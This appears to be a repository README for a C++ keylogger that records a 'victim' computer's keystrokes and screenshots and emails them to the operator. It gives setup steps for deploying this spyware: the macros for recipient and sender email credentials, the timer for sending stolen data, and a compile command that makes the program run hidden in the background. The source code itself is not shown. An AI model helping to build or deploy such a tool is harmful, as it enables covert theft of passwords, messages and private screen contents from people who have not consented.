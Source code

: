 # Keylogger v1.0
This KeyLogger is written with C++ it will allow you to capture the keyboard clicks and screenshot from your victim computer and sent them in an email, the screenshot part is written with python the c++ script who will create that script and execute it every 2 minutes

## How to use:

change this macros:
```
#define X_EM_TO   "toEmail@gmail.com" //email that will recieve your files
#define X_EM_FROM "yourEmail@gmail.com" //your email
#define X_EM_PASS "password" // your password
```
in the SendMail module (SendMail.h)

o change the time within the emails will sent change this this values line 34 in
```
Timer MailTimer(TimerSendMail,<<Time in Milliseconds>>,Timer::Infinite);
```

compile it with :
```
g++ -std=c++11 -mwindows main.cpp & a
```
and it will run in the background (to stop it kill it from task manager)